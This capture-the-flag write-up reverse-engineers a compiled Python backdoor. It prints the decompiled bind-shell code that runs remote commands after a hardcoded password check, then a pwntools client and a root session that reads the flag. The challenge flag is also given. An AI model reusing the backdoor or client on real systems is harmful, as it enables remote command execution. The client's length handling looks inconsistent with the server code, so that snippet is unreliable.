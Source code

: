 # Knock knock

### Description

- We found a backdoor on one of our servers and suspect it's being actively exploited. Can you test it out?

### Objective

- Compiled Python executable backdoor.

### Difficulty

- `Easy`

### Flag

- `HTB{l1k3_@_r3al_1nv3stig@t0r!}`

### Release:

- [/release/knock_knock.zip](release/knock_knock.zip) (`346bdfccb5208f0e63de763bf23a25caa3dfa60d609ef4723bec3a616f6b6f27`)

## Challenge

We're given a binary which is unusually large in size.

```shell
$ file backdoor
backdoor: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=294d1f19a085a730da19a6c55788ec08c2187039, stripped

$ du -hs backdoor
7.0M	backdoor
```

Running strings on the binary reveals some Python library related functions.

```
$ strings backdoor

<SNIP>
Py_SetProgramName
Py_SetPythonHome
PyDict_GetItemString
PyErr_Clear
Cannot dlsym for PyErr_Clear
PyErr_Occurred
PyErr_Print
Cannot dlsym for PyErr_Print
<SNIP>
```

This means it could be compiled Python code. The [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor/wiki/Extracting-Linux-ELF-binaries) wiki shows how we can unpack such binaries.

```shell
$ objcopy --dump-section pydata=pydata.dump backdoor
$ python pyinstxtractor.py ../pydata.dump
```

We find compiled python bytecode in the `pydata.dump_extracted/src.pyc` file. Let's use [decompyle3](https://github.com/rocky/python-decompile3) to reconstruct the source code.

```shell
$ decompyle3 pydata.dump_extracted/src.pyc
```

Running the command above gives the following source code:

```python
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

    if data.decode() != md5(b't0p_s3kr3t').hexdigest():
        client.send(b'Invalid')
    size = client.recv(1)
    command = client.recv(int.from_bytes(size, 'little'))
    if not command.startswith(b'command:'):
        client.close()
    else:
        command = command.replace(b'command:', b'')
        output = check_output(command, shell=True)
        client.send(output)
        client.close()
```

As we can see, the script binds to port 4433 and waits for incoming connections. On getting a connect, it receives 32 bytes of data and checks if it's the MD5 hash for `t0p_s3kr3t`. If true, it takes in length of a command starting with `command:` and then the command. This command is executed using `check_output` and the result is returned to the client.

We can write a client program in order to interact with it and execute system commands. 

```python
from pwn import *

while True:
    r = remote("localhost", 4433)
    r.send('8f4328c40b1aa9409012c7406129f04b')
    cmd = input("CMD:\\> ")
    cmd = f"command:{cmd}"
    r.send(hex(len(cmd))[2:])
    r.send(cmd)
    print(r.recvS())
    r.close()
```

The flag can be found in the `/` folder.

```shell
$ python client.py

[*] Closed connection to localhost port 4433
[+] Opening connection to localhost on port 4433: Done
CMD:\> id
uid=0(root) gid=0(root) groups=0(root)
CMD:\> ls
bin
dev
etc
flag.txt
home
lib
<SNIP>
CMD:\> cat f*
HTB{l1k3_@_r3al_1nv3stig@t0r!}
```

